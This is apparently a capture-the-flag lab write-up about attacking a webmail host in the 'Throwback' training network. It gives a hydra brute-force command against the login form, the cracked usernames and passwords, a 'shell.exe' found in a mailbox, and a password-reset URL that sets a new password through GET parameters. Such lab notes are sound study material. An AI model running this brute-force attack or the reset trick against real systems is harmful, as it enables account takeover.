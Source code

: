# THROWBACK-MAIL

## 10.200.24.232 - THROWBACK-MAIL

```
tbhguest:WelcomeTBH1!
```


Using hydra, we found these credentials:

```
hydra -I -L usernames.txt -P passwords.txt 10.200.24.232 http-post-form '/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect' -v
```


```
[80][http-post-form] host: 10.200.24.232   login: PeanutbutterM   password: Summer2020
[STATUS] 62.00 tries/min, 186 tries in 00:03h, 113 to do in 00:02h, 16 active
[VERBOSE] Page redirected to http://10.200.24.232/src/webmail.php
[80][http-post-form] host: 10.200.24.232   login: DaviesJ   password: Management2018
[VERBOSE] Page redirected to http://10.200.24.232/src/webmail.php
[80][http-post-form] host: 10.200.24.232   login: GongoH   password: Summer2020
[STATUS] 62.00 tries/min, 248 tries in 00:04h, 51 to do in 00:01h, 16 active
[VERBOSE] Page redirected to http://10.200.24.232/src/webmail.php
[80][http-post-form] host: 10.200.24.232   login: MurphyF   password: Summer2020
[VERBOSE] Page redirected to http://10.200.24.232/src/webmail.php
[80][http-post-form] host: 10.200.24.232   login: JeffersD   password: Summer2020
```

```
PeanutbutterM:Summer2020
DaviesJ:Management2018
GongoH:Summer2020
MurphyF:Summer2020
JeffersD:Summer2020
```

-------------------

Logging in with `DaviesJ`, we found a `shell.exe` file.

Logging in `MurphyF`, we found:

```
http://timekeep.throwback.local/dev/passwordreset.php?user=murphyf&password=PASSWORD
```